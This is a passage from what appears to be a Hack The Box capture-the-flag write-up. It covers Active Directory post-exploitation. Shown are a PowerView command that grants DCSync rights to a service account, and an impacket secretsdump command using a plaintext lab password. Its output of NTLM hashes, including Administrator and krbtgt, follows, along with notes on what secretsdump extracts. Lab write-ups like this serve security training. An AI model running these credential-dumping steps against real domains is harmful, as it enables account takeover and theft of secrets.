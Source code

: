 ### Grant DCSync rights to user 

Granting `DCSync` rights to user svc-alfresco using `PowerView`
```
Add-DomainObjectAcl -TargetIdentity 'DC=htb,DC=local' -Rights DCSync -Verbose -PrincipalIdentity 'htb\\svc-alfresco' -credential $Cred 
```

## Dump secrets

Next, now that `svc-alfresco` has gained `DCSync` rights, we can run `secretdump` remotely from our host:
```bash
secretsdump.py svc-alfresco:s3rvice@10.129.95.210 -dc-ip 10.129.95.210
```

```bash
Impacket v0.13.0.dev0+20250130.104306.0f4b866 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] DRSR SessionError: code: 0x20f7 - ERROR_DS_DRA_BAD_DN - The distinguished name specified for this replication operation is invalid.
[*] Something went wrong with the DRSUAPI approach. Try again with -use-vss parameter
[*] Cleaning up...
```
nice! as you can see above, we dumped the `NTDS.DIT secrets`, thus getting the NTLM hash of the administrator!
##### Reminder
`secretsdump` is a post-exploitation tool used to **dump credentials** (like password hashes, cleartext passwords, and Kerberos keys) from a Windows host ,It can extract credentials from:
- **NTDS.dit** (Active Directory database)
- **LSASS memory** (via remote execution)
- **SAM registry hive** (local user accounts)
- **LSA secrets** (stored service credentials, cached logins)
It works remotely by using **DCERPC over SMB**, unlike mimikatz which needs to be "dropped" locally to work.
###### 🔑 Required user privileges:
- The user **must be a member of the `Administrators` group** **on the target machine**.
    - This includes:
        - **Domain Admins** (on domain-joined machines)
        - **Local Administrators** (if attacking a workstation/server)
	### 🧠 Why?